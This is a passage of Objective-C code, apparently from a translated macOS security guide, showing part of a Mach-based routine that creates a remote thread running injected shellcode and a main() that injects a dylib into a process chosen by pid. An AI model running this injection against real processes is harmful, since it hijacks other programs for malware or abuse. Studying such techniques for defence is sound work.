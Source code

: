 ```objectivec
fprintf(stderr,"Unable to set memory permissions for remote thread's stack: Error %s\n", mach_error_string(kr));
return (-4);
}


// Create thread to run shellcode
struct arm_unified_thread_state remoteThreadState64;
thread_act_t         remoteThread;

memset(&remoteThreadState64, '\0', sizeof(remoteThreadState64) );

remoteStack64 += (STACK_SIZE / 2); // this is the real stack
//remoteStack64 -= 8;  // need alignment of 16

const char* p = (const char*) remoteCode64;

remoteThreadState64.ash.flavor = ARM_THREAD_STATE64;
remoteThreadState64.ash.count = ARM_THREAD_STATE64_COUNT;
remoteThreadState64.ts_64.__pc = (u_int64_t) remoteCode64;
remoteThreadState64.ts_64.__sp = (u_int64_t) remoteStack64;

printf ("Remote Stack 64  0x%llx, Remote code is %p\n", remoteStack64, p );

kr = thread_create_running(remoteTask, ARM_THREAD_STATE64, // ARM_THREAD_STATE64,
(thread_state_t) &remoteThreadState64.ts_64, ARM_THREAD_STATE64_COUNT , &remoteThread );

if (kr != KERN_SUCCESS) {
fprintf(stderr,"Unable to create remote thread: error %s", mach_error_string (kr));
return (-3);
}

return (0);
}



int main(int argc, const char * argv[])
{
if (argc < 3)
{
fprintf (stderr, "Usage: %s _pid_ _action_\n", argv[0]);
fprintf (stderr, "   _action_: path to a dylib on disk\n");
exit(0);
}

pid_t pid = atoi(argv[1]);
const char *action = argv[2];
struct stat buf;

int rc = stat (action, &buf);
if (rc == 0) inject(pid,action);
else
{
fprintf(stderr,"Dylib not found\n");
}

}
```
```markdown
<details>
<summary>Επικοινωνία Διαδικασιών (IPC)</summary>

```